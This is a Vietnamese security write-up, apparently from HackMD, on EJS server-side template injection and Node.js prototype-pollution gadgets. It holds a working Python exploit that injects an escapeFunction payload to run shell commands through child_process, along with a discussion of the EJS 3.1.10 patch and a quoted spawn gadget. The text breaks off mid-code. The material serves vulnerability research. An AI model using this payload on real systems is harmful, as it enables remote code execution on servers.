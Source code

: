 ```js 
```
ex.py : 
```js 
import  requests
url = "http://localhost:3000"
escapeFunction = "JSON.stringify; console.log(1337);let cp = process.mainModule.require('child_process');console.log(cp.execSync('id').toString());"
data  = { 
    "settings" : {
        "view options" : {
         "client" : '123' ,
        "escapeFunction" : escapeFunction       
        }
    }
}
res = requests.post(url+'/pollute_me' ,json=data)
print(res.text)
requests.get(url)

```
- **Lưu ý**:  gadget trên chỉ hoạt động khi kiểm soát được property trực tiếp của data chứ không phải proottype pollution vì khi parse **renderOptions** , nó chỉ copy các own property thui chứ không dùng luôn cả objects đấy.
```js 
var renderOptions = { ...this.locals, ...opts._locals, ...opts };
```

# How it get patched

- Vì root cause ở đây là do hàm generate Template function nhận opts mà không kiểm tra kĩ nên patch đơn giản nhưu sau  : 
https://github.com/mde/ejs/compare/v3.1.9%2e%2e%2ev3.1.10
![image](https://hackmd.io/_uploads/BJ7m3GkOee.png)

Nó sẽ kiểm tra các biến có phải là property trực tiếp hay không sau đó trả copy vào một Null Object và returns về . Không biết có bypass đc ko :v 
Nhìn chung nếu ta có thể kiểm soát biến data (not prototype pollution) thì rce vẫn posssible .

# Universal Gadget
https://portswigger.net/web-security/prototype-pollution/server-side
- Ngoài ra có một gadget khá nguy hiểm đối với các phiên bản Node js cũ khi spawn một process mới . 
```js 
function spawn(file, args, options) {
    const child = new ChildProcess();

    options = normalizeSpawnArguments(file, args, options);
    debug('spawn', options);
    child.spawn(options);

    return child;
}

```
Hàm trên sẽ tạo một process và truyền options được lấy từ **normalizeSpawnArguments**
Vấn đề ở đây là hàm trên có một bug về pp . 
```j
    const env = options.env || process.env;
    const envPairs = [];
    // Prototype values are intentionally included.
    for (const key in env) {
        const value = env[key];
        if (value !== undefined) {
```